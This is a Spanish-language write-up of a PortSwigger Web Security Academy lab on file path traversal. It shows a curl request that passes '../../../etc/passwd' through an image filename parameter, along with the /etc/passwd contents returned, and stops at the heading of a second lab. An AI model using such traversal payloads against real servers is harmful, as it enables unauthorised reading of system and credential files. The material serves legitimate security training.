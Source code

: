 ```yaml
---
layout: default
title: "Directory Traversal - PortSwigger"
permalink: /directory-traversal-ps/
---
```


# Directory Traversal - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

## Índice



## 1. Lab: File path traversal, simple case

Ingresamos al laboratorio y revisando el codigo fuente encontramos un enlace interesante.

```html
<img src="/image?filename=15.jpg">
```

Entonces, sabemos de la existencia de un recurso, entonces la url sería la siguiente:

```bash
https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=15.jpg
```

Y al acceder nos encontramos con lo siguiente:

![](img1.png)

Ahora lo que haremos será cambiar la parte donde dice **15.jpg** por nuestro fichero **/etc/passwd**.

![](img2.png)

Como vemos no nos muestra el contenido de manera directa, así que lo que haremos por comando usando **curl**.

```bash
└──╼ $curl https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
carlos:x:2002:2002::/home/carlos:/bin/bash
user:x:2000:2000::/home/user:/bin/bash
dnsmasq:x:101:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
messagebus:x:102:101::/nonexistent:/usr/sbin/nologin
```

Y si vamos a la pagina del laboratio vemos que ya la tenemos resuelta :D

![](img3.png)

## 2. Lab: File path traversal, traversal sequences blocked with absolute path bypass